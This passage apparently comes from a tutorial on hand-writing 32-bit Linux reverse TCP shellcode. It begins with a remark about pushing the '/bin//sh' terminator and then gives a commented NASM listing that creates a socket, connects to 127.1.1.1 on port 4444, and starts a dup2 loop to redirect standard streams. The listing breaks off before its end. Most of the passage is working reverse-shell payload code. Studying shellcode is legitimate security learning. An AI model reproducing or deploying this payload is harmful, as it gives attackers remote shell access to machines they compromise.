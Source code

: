 As you can see, we need to push the terminating `NULL` for the `/bin//sh` string seperately onto the stack, because there isn't already one to use.    

So we are done.       

### final complete shellcode

My complete, commented shellcode:
```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd

dup:
```